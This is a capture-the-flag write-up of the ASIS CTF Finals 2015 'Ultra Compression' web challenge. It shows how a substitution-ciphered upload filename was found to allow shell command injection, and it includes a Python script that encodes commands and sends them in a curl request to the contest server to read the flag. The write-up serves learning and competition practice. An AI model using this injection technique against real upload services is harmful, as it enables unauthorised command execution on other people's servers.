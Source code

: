 ```yaml
---
layout: post
title: ASIS CTF Finals 2015 - Ultra Compression (Web 125)
author: quanyang
description: "ASIS CTF Finals 2015 Web 125. Ultra Compression Service."
tags: [CTF, WEB, ASIS, INJECTION]
categories: [CTF, WEB, INJECTION]
excerpt: ""
share: true
comments: true
--- 
```


ASIS CTF 2015 Finals just took place over the weekend of 10,11 October 2015. The finals is open to all, however only qualified teams will be allowed to win the prizes. NUS Greyhats took part in it and solved a few challenges, this is our write-up for some of the challenges from ASIS CTF 2015 Finals. 

# ultra compression
**Points:**125
**Category:** Web

Go [there](http://ucs.asis-ctf.ir/) and find the flag.

---

# Our solution

Here we were told to go to a webpage to find the flag. Going to the webpage shows an ultra compression service with the ability to upload files.

![]({{site.url|append: site.baseurl}}/resources/images/asis/ucs/service.png){: height="auto" width="600px"}

First thing to do is to upload a legitimate file!
I chose a random image file on my machine to upload.

![]({{site.url|append: site.baseurl}}/resources/images/asis/ucs/upload.png){: height="300px" width="300px"}

By viewing all embeded javascript, we can tell that the file is sent using ajax to the uploader php script.

The uploader php script is located at 'ajax_php_file.php'. However, it seems that the file uploaded is not stored on the server.

{% highlight javascript linenos %}

$(document).ready(function (e) {
$("#upload").on('submit',(function(e) {
e.preventDefault();
$("#message").empty();
$('#loading').show(1000);
$.ajax({
url: "ajax_php_file.php", // Url to which the request is send
type: "POST",             // Type of request to be send, called as method
data: new FormData(this), // Data sent to server, a set of key/value pairs (i.e. form fields and values)
contentType: false,       // The content type used when sending data to the server.
cache: false,             // To unable request pages to be cached
processData:false,        // To send DOMDocument or non processed data file it is set to false
success: function(data)   // A function to be called if request succeeds
{
	$('#loading').hide();
	$("#message").hide(1000);
	$("#message").show(500);
	$("#message").html(data);
}
});
}));

{% endhighlight %}

Using the Chrome browser's developer tool, we can inspect the response of the ajax call.

![]({{site.url|append: site.baseurl}}/resources/images/asis/ucs/crypt.png){: height="300px" width="auto"}

As you can see, the filename
`Screen Shot 2015-10-11 at 00.40.02.png`
gets encrypted to
`ow.nnm oOsV G1ig-i1-ii cV 11Jh1J1GJ5my`

Following this finding, we can attempt to map every possible plaintext to their corresponding ciphertext, this gives us the mapping of:

`crypt = "YLyA83tfONHDInmSc7JCb64PBxQaZTRu.viMWj9lhzgwGdeqEV25Kos1Fkp0/Xr"`
`plain = ".0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"`

Attempting to insert a semi-colon into the filename shows that the field was injectable.
![]({{site.url|append: site.baseurl}}/resources/images/asis/ucs/injection.png){: height="200px" width="auto"}

Using a python script to automatically map payload back to their corresponding plaintext, we can then inject commands to the website.

{% highlight python linenos %}
import subprocess,sys

crypt = "YLyA83tfONHDInmSc7JCb64PBxQaZTRu.viMWj9lhzgwGdeqEV25Kos1Fkp0/Xr"
plain = ".0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

mapping = dict()

for x,p in enumerate(plain):
	mapping[crypt[x]] = p

inject = sys.argv[1]

out = ""

for x in inject:
	if x in mapping:
		out = out + mapping[x]
	else:
		out = out + x

print out

cmd = "curl 'http://ucs.asis-ctf.ir/ajax_php_file.php' -H 'Pragma: no-cache' -H 'Origin: http://ucs.asis-ctf.ir' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-GB,en;q=0.8,en-US;q=0.6,id;q=0.4' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.101 Safari/537.36' -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryes1iD3vHWDOD2gkZ' -H 'Accept: */*' -H 'Cache-Control: no-cache' -H 'X-Requested-With: XMLHttpRequest' -H 'Cookie: PHPSESSID=' -H 'Connection: keep-alive' -H 'Referer: http://ucs.asis-ctf.ir/' -H 'DNT: 1' --data-binary $'------WebKitFormBoundaryes1iD3vHWDOD2gkZ\r\nContent-Disposition: form-data; name=\"file\"; filename=\""+out+"\"\r\nContent-Type: image/png\r\n\r\n\r\n------WebKitFormBoundaryes1iD3vHWDOD2gkZ--\r\n' --compressed"

p = subprocess.Popen(cmd,shell=True,stdout=subprocess.PIPE)

out = p.communicate()
print out
{% endhighlight %}

Traversing to /home/asis/, we can then do a ls to see that the flag.txt is kept there. Finally, using a cat command, we can obtain the flag!

![]({{site.url|append: site.baseurl}}/resources/images/asis/ucs/flag.png){: height="200px" width="auto"}

And we have our flag: **ASIS{72a126946e40f67a04d926dd4786ff15}**